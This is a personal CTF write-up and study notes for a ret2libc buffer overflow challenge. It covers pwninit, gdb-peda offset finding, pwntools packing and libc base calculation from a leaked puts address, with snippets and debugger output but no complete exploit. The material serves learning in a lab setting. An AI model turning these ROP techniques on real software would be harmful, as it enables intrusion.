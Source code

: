 # Lesson Learn
- LIBC
- pwninit
- PIE on Linux Binary
    - Position-Independent Executables
    - vs ASLR
- Makefile
- ROP
    - ret2main
    - system() and Stack Alighment
- ROPgadget
- GOT
- PLT
- gdb-peda
    - pattern_create
    - pattern_offset
- pwntools
    - recv(6)
        comination of `recvline()`, trim and padding
        ```python
        a = recvline()
        print(len(a))
        # 6
        recv(6).ljust(8,b"\x00")
        ```
    - type: `bytes` and `len()`
        You can use len() to bytes value.  
        `len()` can adjust to each type and calculate a length of value as the type.  
        ```python
        a = 123
        b ="123"
        c = 0x123
        d = b'123\x89\xe3\x81\xad456'

        # print("int : " + len(a)) #error
        print("string : " + str(len(b)))
        # print("hex : " + str(len(c))) #error
        print("bytes : " + str(len(d)))

        #string : 3
        #bytes : 10
        ```
    - `u64`
        In pwntools, u64 refers to an "unpack 64-bit" operation, and it's used to convert a byte string (sequence of 8 bytes) into an unsigned 64-bit integer. The u64 function is part of pwntools' utility functions for binary data manipulation.

Here's a basic example of using u64:

python
Copy code
from pwn import *

# Example byte string representing a 64-bit integer
byte_data = b'\x01\x02\x03\x04\x05\x06\x07\x08'

# Unpack the byte string to a 64-bit integer
integer_value = u64(byte_data)

# Print the result
print(f"Unsigned 64-bit integer value: {integer_value}")
In this example:

u64 takes a byte string (byte_data) as input and returns an unsigned 64-bit integer.
The byte_data is assumed to be 8 bytes long, representing a little-endian 64-bit integer.
This function is useful in binary exploitation and CTF challenges where you might encounter serialized data in a specific format, and you need to convert it into its corresponding numerical representation.

Keep in mind that the endianness of the architecture might affect how you interpret the bytes. If the data is big-endian, you might use u64(byte_data, endian='big') instead. Always refer to the documentation of the specific binary or CTF challenge you are working on for details on the expected data format.

- `readelf`
    - `-s`  
        -s or --symbols: Display the symbol table.
- Stack Alighment

# Write Up
1. fix binary
```zsh
$ pwninit --bin ./vuln --libc ./libc.so.6
```

```
$ ldd ./vuln
$ strings libc.so.6 | grep -i version

$ checksec --file=./vuln_patched --format=json | jq .
```

2. ghidra

3. gdb-peda
```
gdb-peda$ continue
gdb-peda$ stack
gdb-peda$ info register
gdb-peda$ info break
gdb-peda$ pattern_create 200 # buffer over flow
gdb-peda$ pattc 200
gdb-peda$
##############################
##############################
gdb-peda$
gdb-peda$ break *0x4006ef # scanf
gdb-peda$ break *0x400770 # return
gdb-peda$ start
gdb-peda$ pattern_create 200
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
gdb-peda$ c
# copy-and-paste
...
[-------------------------------------code-------------------------------------]
   0x40076e <do_stuff+150>:     nop
   0x40076f <do_stuff+151>:     leave
=> 0x400770 <do_stuff+152>:     ret
   0x400771 <main>:     push   rbp
   0x400772 <main+1>:   mov    rbp,rsp
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdcc8 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0008| 0x7fffffffdcd0 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0016| 0x7fffffffdcd8 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0024| 0x7fffffffdce0 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
[------------------------------------------------------------------------------]
...
gdb-peda$ pattern_offset AAQAAm
AAQAAm found at offset: 136
```

4. think about ROP

5. pwntools
- p64 and u64
    "p" stands for packing and "u" stands for unpacking.
    ```
    p8(0)
    b'\x00'
    p32(0xdeadbeef)
    b'\xef\xbe\xad\xde'
    p32(0xdeadbeef, endian='big')
    b'\xde\xad\xbe\xef'
    with context.local(endian='big'): p32(0xdeadbeef)
    b'\xde\xad\xbe\xef'
    ```

- calculate static offset
    ```console
    $ readelf -s ./libc.so.6 | grep puts
    191: 0000000000080a30   512 FUNC    GLOBAL DEFAULT   13 _IO_puts@@GLIBC_2.2.5
    422: 0000000000080a30   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
    496: 0000000000126870  1240 FUNC    GLOBAL DEFAULT   13 putspent@@GLIBC_2.2.5
    678: 0000000000128780   750 FUNC    GLOBAL DEFAULT   13 putsgent@@GLIBC_2.10
    1141: 000000000007f260   396 FUNC    WEAK   DEFAULT   13 fputs@@GLIBC_2.2.5
    ```
    pwntools
    ```python
    ...
    libc_base=addr-libc.symbols['puts']
    print("static offset ...")
    print(hex(libc.symbols['puts']))
    # 0x80a30
    ...
    ```
- receive result of the first ROP
    the result is here.  
    ```python
    res = p.recvline()
    print(res)                  # b'0j\xee\x95\x9e\x7f\n'
    print(len(res))             # 7
    print(res.ljust(8,b"\x00")) # b'0j\xee\x95\x9e\x7f\n\x00'
    ```
    However, I don't need the last bytes for a new line which is `\n`.  
    So I trim it.
    ```python
    res = p.recv(6)
    print(res)                  # b'0j\xee\x95\x9e\x7f'
    print(len(res))             # 6
    print(res.ljust(8,b"\x00")) # b'0j\xee\x95\x9e\x7f\x00\x00'
    ```

6. think about the next ROP


# Ref  
- https://papadoxie.github.io/Writeups/PicoCTF/HeresALIBC/HeresALIBC.html  
- https://cashitsuki.com/posts/2021-12-15-pwninit-manually/  
- https://qiita.com/Hashibirokou/items/8d76fc88bd6daaf8f067  
- https://ret2home.github.io/blog/CTF/picoctf-2021/pwn/hereslibc/
 -https://sh0ebill.hatenablog.com/entry/2022/09/08/211727
- https://qiita.com/tobira-code/items/7ae54a22158aea1a8579  
- https://zenn.dev/kusunoki576/articles/a785672cbc4e0a